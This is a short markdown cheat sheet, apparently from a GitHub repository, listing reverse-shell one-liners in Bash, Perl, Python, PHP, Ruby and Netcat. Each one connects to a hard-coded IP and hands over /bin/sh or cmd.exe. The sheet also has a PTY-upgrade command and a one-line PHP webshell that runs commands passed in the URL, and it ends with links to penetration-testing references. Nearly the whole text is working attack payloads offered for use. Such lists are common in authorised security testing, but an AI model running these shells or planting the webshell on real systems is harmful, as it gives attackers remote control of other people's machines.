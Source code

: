 # Public Exploits - Reverse Shells

## Bash

```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

## Perl

```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

## Python

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

## Python Psuedo terminal

```python -c "import pty;pty.spawn('/bin/bash')"```

Use this on raw shells

## PHP

```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```


```<?php system($_GET['cmd']); ?>```

Simple php webshell


## Ruby

```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

## Netcat

```nc -e /bin/sh 10.0.0.1 1234```

Reverse shell Linux

```nc 10.10.0.1 1234 -e cmd.exe```

Reverse shell Windows

## References:**

[Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - Pentestmonkeys

[Netcat cheat sheet v1](http://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) - Sans Penetration Testing

[Fixing a raw shell](https://nullsec.us/fixing-a-raw-shell/) - Nullsec
